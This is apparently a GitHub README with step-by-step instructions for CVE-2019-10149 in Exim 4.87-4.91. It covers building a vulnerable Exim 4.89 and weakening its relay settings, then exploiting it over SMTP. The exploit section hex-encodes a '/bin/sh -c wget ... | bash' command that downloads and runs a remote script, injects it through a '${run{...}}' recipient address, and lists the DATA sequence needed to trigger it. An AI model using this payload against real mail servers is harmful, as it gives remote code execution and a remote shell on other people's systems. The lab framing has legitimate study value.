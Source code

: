# CVE-2019-10149 - Exim 4.87 < 4.91
Instructions for installing a vulnerable version of Exim and its expluatation
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
 * wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
 * cd exim-4.89/

Copy and modify required config files
 * sed -e 's,^EXIM_USER. * $,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

 * cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
 * sudo groupadd -g 31 exim 

 * sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
 * sudo apt-get update
 * sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
 * sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
 * sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains =  * /' /usr/exim/configure
 * sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
 * sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
 * sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
 * /bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
 * \x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
 * \t-c\ = -c
 * \t\= space
 * x20 = space
 * x7C = |
 * x2F = /
 * x3A = :
 * x2D = -
 * x3E = >
 * x26 = &
 * x22 = "
 * x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
 * nc 192.168.0.168 25
 
Once we are connected we say HELO.
 * helo localhost
 * (Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
 * mail from:<>
 * (Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
 * rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
 * (Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
 * DATA
 * Received: 1
 * Received: 2
 * Received: 3
 * Received: 4
 * Received: 5
 * Received: 6
 * Received: 7
 * Received: 8
 * Received: 9
 * Received: 10
 * Received: 11
 * Received: 12
 * Received: 13
 * Received: 14
 * Received: 15
 * Received: 16
 * Received: 17
 * Received: 18
 * Received: 19
 * Received: 20
 * Received: 21
 * Received: 22
 * Received: 23
 * Received: 24
 * Received: 25
 * Received: 26
 * Received: 27
 * Received: 28
 * Received: 29
 * Received: 30
 * Received: 31
 * 
 * .

